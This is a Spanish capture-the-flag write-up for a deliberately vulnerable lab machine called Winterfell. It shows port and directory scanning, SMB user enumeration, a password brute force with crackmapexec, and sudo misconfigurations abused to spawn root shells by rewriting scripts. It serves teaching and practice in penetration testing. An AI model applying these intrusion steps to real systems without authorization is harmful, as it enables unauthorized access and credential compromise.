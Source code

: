 ```yaml
---
description: '✍️ Autor: Zunderrub🔍 Dificultad: Fácil  📅 Fecha de creación: 16/07/2024'
---
```


# Winterfell

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más. También tenemos un servicio **SMB**.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web ambientada en la serie de Juego de Tronos.

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio que nos llama la atención que es `/dragon`.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a indagar si tenemos acceso al servicio **SMB**.

```bash
smbclient -L 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a descubrir usuarios válidos para **SMB**.

```bash
enum4linux 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Hemos descubierto un usuario **jon**. Teniendo en cuenta que la máquina trata de la serie posiblemente sea algún título una contraseña por lo que lo copiamos en un archivo y hacemos fuerza bruta.

```bash
crackmapexec smb 172.17.0.2 -u jon -p titulos.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Con esas credenciales descubiertas nos conectamos a SMB.

```bash
smbclient \\\\172.17.0.2\\shared -U jon
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido del archivo.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Decodificamos la contraseña que está en **base64**.

```bash
echo "aGlqb2RlbGFuaXN0ZXI=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos conectamos con esas credenciales al usuario **jon**.

```bash
ssh jon@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo que hacemos es borrar el archivo y crear lo mismo pero con un contenido para tener una shell.

```bash
rm .mensaje.py
nano /home/jon/.mensaje.py
```

```bash
import os
os.system('/bin/bash')
```

```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Los binarios que tenemos a nuestra disposición nos permiten leer y listar archivos que pertenecen a Daenerys. Por lo tanto, podemos suponer que uno de los pasos a seguir es explorar algún archivo en su directorio home. Primero, listamos el contenido del directorio y encontramos un archivo llamado `mensajeParajon`, que podría ser relevante para nuestras acciones.

```bash
sudo -u daenerys ls /home/daenerys
sudo -u daenerys cat /home/daenerys/mensajeParaJon
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con **daenerys** con la contraseña descubierta.

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo primero que hacemos es leer el archivo y descubrimos que es un script en bash que establece una conexión con otra dirección IP. Sin embargo, al revisar los permisos, notamos que tenemos acceso a él. Por lo tanto, para escalar privilegios, solo necesitamos editar el archivo.

```bash
#!/bin/bash
bash
```

Ejecutamos.

```bash
sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
